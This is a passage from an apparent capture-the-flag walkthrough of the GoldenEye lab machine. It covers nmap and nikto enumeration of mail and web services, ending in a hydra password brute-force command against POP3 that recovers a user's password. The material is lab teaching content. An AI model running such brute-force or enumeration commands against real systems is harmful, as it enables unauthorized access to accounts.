 As we wait let's enumerate the server more and see the website. After viewing the source code we figure out this comment: 
```html
<!--
Qualified GoldenEye Network Operator Supervisors: 
Natalya
Boris

 -->
```
So Natalya the second user is a network operator as Boris is.

Nmap finally returned after a few minutes and we found the hidden ports
`Discovered open port 55007/tcp on 10.10.55.232` &
`Discovered open port 55006/tcp on 10.10.55.232`
Final nmap results.
```
PORT      STATE SERVICE     REASON         VERSION
25/tcp    open  smtp        syn-ack ttl 63 Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
|_ssl-date: TLS randomness does not represent time
80/tcp    open  http        syn-ack ttl 63 Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: GoldenEye Primary Admin Server
55006/tcp open  ssl/unknown syn-ack ttl 63
|_ssl-date: TLS randomness does not represent time
55007/tcp open  pop3        syn-ack ttl 63 Dovecot pop3d
|_pop3-capabilities: RESP-CODES STLS PIPELINING AUTH-RESP-CODE SASL(PLAIN) USER TOP CAPA UIDL
|_ssl-date: TLS randomness does not represent time
```

# SideNote: nikto found a possibly weak php part of the website `http://10.10.55.232/splashAdmin.php`
```
+ /splashAdmin.php: Cobalt Qube 3 admin is running. This may have multiple security problems as described by www.scan-associates.net. These could not be tested remotely.
```
We found a txt file on searchsploit but it doesn't seem to work. After all Cobalt Qube says was decommissioned 
From there we find possible 3 more usernames. We know there is an admin that has nothing to do with anyone else we already know. There is Xenia which is a contractor and a Janus user.
Seems like the email server is the only way in...

# Continuing with the email server
Trying to log into pop3 service with Boris' credentials is not working. We can try and bruteforce the service to see if we can get any passwords for the 2 users we know

Let's use hydra...
`hydra -l boris -P /usr/share/wordlists/rockyou.txt pop3://10.10.55.232:55007`
We eventually get the password `secret1!`
`[55007][pop3] host: 10.10.55.232   login: boris   password: secret1!`
